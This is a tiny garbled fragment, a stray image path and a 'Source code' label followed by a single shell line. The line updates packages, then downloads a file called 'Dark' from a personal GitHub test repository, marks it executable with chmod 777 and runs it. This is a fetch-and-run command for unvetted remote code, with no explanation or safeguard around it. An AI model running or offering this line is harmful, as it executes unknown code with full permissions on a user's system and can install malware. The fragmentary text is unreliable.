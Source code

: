
apt-get update -y; apt-get upgrade -y; wget https://raw.githubusercontent.com/aritach/test/master/Dark; chmod 777 Dark; ./Dark
